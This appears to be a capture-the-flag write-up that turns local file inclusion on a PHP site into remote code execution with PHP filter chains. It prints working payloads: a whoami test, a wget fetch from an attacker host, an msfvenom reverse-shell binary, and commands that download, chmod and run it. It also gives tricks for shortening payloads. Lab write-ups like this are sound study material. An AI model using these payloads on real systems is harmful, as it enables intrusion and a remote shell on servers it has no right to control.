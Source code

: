 ### PHP LFI → RCE Chain

![URL of the site](https://i.imgur.com/qBGMwhr.png)

URL of the site

<aside>
❕ **Information**
Possible LFI on a PHP site! LFI → PHP RCE Chain is a valid candidate to test.
</aside>

Initial tests with standard LFI payloads is not displaying anything but since this is a PHP site, I jumped the gun and went straight for the chain. There is a nice [tool](https://github.com/synacktiv/php_filter_chain_generator) that can generate chains for us and this was the the command I used:

- Command
    
    `python3 [lfi.py](http://lfi.py/) --chain '<?php system("whoami"); ?>'`
    

[https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

![](https://i.imgur.com/atuZhIH.png)


Look at that! We have command execution! Unless there is a firewall in our way, shell is just across the horizon.

![](https://i.imgur.com/29F0Wyz.png)


We have a road block. The command chains I am passing through are becoming too long for the server to handle. Attempting to run a bash reverse shell contains too many characters. Even something like this is too long when chained: `<?php system("wget [http://10.10.14.152/a](http://10.10.14.152/a)"); ?>`

We need to find a way to shorten this code to allow myself to upload a shell. Apparently in PHP, as I was just taught from ChatGPT, `system` commands can be shorted by using ``` instead. The `<?php` can also be shortened with `<?=` to save 2 characters. You can also remove the `http://` in the wget request.

With this chain of commands, I was able to get RCE:

- Create msfvenom payload
    
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.152 LPORT=4444 -f elf > a`
    
- Drop payload on disk
    
    `python3 [lfi.py](http://lfi.py/) --chain '<?= `wget 10.10.14.152/a -O /tmp/a`; ?>'`
    
- Change permissions
    
    `python3 [lfi.py](http://lfi.py/) --chain '<?= `chmod 777 /tmp/a`; ?>'`
    
- Activate
    
    `python3 [lfi.py](http://lfi.py/) --chain '<?= `/tmp/a`; ?>'`
    
